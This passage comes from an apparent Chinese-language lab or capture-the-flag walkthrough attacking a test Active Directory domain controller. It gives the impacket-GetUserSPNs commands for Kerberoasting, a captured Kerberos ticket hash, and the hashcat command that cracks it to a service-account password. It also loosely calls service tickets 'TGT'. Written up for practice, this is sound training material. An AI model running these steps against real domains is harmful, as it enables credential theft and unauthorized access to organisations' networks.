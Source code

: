 ```PowerShell
ybob317:ybob317
```
枚举 Kerberos 服务主体名称（SPNs）

利用impacket-GetUserSPNs 枚举用户的服务帐户信息，然后使用这些 SPN 获取 Kerberos 服务票证（TGT），借助TGT我们可以向TGS请求获取TGS 并访问对应的服务

在枚举这些账户之前，我们需要先将攻击机的时间与域控的时间同步，不然会连接失败

```PowerShell
timedatectl set-ntp off
rdate -n  192.168.56.128
impacket-GetUserSPNs SOUPEDECODE.LOCAL/ybob317 -dc-ip 192.168.56.128 -usersfile valid\_users.txt -request -outputfile spn-users.tgs
```
![20.DC01.001](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/20.DC01.001.png)

## 5. hashcat破解

获取到了目标上服务账户的TGS后可以利用hashcat进行爆破

```PowerShell
hashcat -a 0 -m 13100 spn-users.tgs /usr/share/wordlists/rockyou.txt  

$krb5tgs$23$\*file\_svc$SOUPEDECODE.LOCAL$file\_svc\*$819b74fc74d654f64b4ffc                           d59fcaffa8$1b2935d454f2797b08b5e5e3b1c9e093b5982e38edfb66c99f2264bcfa472                           84eaccdebc1bd926bde0a24db8ff34869da0d52fdfcaca2fea7e6c3b5476b5c4e231c842                           616b12bf97e643c060983421dd1cf6f358f0569f4214516f0eec01111e543b0035a5dc28                           332619c22e939a86e5a08fa586f06aa8e2c3c553d79057cfde0f60e99a072ee8edbee941                           2043b665fb117284513fb9c78b212af0d8447c6f96ff2cd75e921fda971125a358ac5029                           35ad8f451ef5a441514b331e41196310c20235f38849402bb94d4d7e505d249a3d961a1d                           fecb3e11f7fc395ec3a4d49fb67d44a0c56b46a8bbea697b766bc493b1de8c79428efae7                           1ef27b1ac43ebc85be78d2829dcd0700b09333bfe841a458c90fbba29bd2d997e7b8a5c6                           174104985675bd8e6b78241ee114b15f5e57b66e35467aa89d827cae400c0cf7618acae7                           909eaf536dc1e5cceadb028c5113e269d4de9c75703cc3e8c71883a981a233d7564715b2                           7982284f3943da002846358961d7fb54de55b90ab02f41f0a357a083721601fc7a655815                           a8cc6d20024639be7e610b7fe65969c06ea6efa388e203821c3480605be47e37c44226fc                           dabcec441cf0bfca7e7d99ffdc5ca0a28b8d0c6dd99fa55209dbec51eebd49faeebb1d80                           1efda2c78f966e63767c541cee0d017581770e9780d0316e0173382e6774f95e00b3dda7                           d0eb05f7766b1f76726eb26395561cd9c2d55af8057cc35bfb7b2468006d80ab8c2b68ef                           0281659e598f117bf0d2a57179d4e203256374e1dbb20dfaafd40316c508fc88ac2ccb53                           658ec19d6439f5a2956fc76e24ad09b4ecd452022758f79a0a0878c60e21ceb0059a22dc                           f5965012e9e9a0dab3222180880e0f5da3c0aaddb76587a7452ce2a37b21d7f68d097ef7                           8b25fab43f43d60c59c2b48c9c8542e9c05099ff1a59c66c66731915e3ceddb579ee2dca                           663270904eec929004bb6b9081a37ceb9d6848fed0ce388721ceafe05175a8564b262c04                           3244f90d01d9a51c3291fe4f16091b80ddf883e14e4f2531afb77d25a41f18cbb2b30de0                           f9ecd778821ecb2526041398178b3b58ac0057d0ebba808d6845a4353fdbcd012d9a0887                           4f7e4c24c1ad40cf2c65b053bc056a1479fbc1cb84140c34ec1ead95dd5555794c3c1c66                           57b2b8f5c4f47b2fbd0889dac1ae71dc8f8abdd1ac9ae13d9e2b1192d191811bb6a38f31                           62ea4baf2322b1b38cd6bbf6662c6920a2c71d6e72ac0686cd2aecc7f9f54b499b194f7f                           6ee8ca01f792ff0a784641ea5efed8c0940314efc87fbcdb997e311cc48e95f766d2c6a3                           25ece96089d7ca723195f9ff8812cb807d039d4345ba7def5903ed5d19f995f1720fe3e6                           a3709d01977f086f0fe351e9a767d5ccbc2e9b92bb29715ab0edc32cb800decdbcdf9977                           e3558992782afdd7e56b65e703e1360117af01e8c96149ad27525f9b45b62b0b4a6ea407                           c0a4162789879307cfd7e6cd62ccf01e8ff73:Password123!!
```
成功获取到了file\_svc用户的密码
